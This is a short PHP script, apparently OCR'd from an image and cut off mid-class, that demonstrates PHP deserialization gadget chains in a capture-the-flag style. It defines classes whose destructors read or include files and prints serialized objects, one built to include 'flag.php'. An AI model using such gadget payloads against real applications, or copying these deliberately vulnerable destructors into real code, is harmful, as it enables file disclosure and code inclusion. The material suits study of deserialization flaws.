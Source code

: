 ```php
class A
{
    public $data;

    function __destruct()
    {
        echo file_get_contents($this->data);
    }
}

echo "\n";
$a = new A();
$a->data = "test";

echo serialize($a);
echo "\n";

#-------------------------------------------------------------------------


class Note
{
    public $content;

    function __toString()
    {
        return $this->content;
    }
}

class Reader
{
    public $note;

    function __destruct()
    {
        include($this->note);
    }
}

$note = new Note();
$note->content = "flag.php";
echo serialize($note);
echo "\n";

$reader = new Reader();
$reader->note = $note;
echo serialize($reader);
echo "\n";

#-------------------------------------------------------------------------

class Logger
{
    public $file;

    function log($message)
    {
        file_put_contents($this->file, $message);
    }
}

class System
```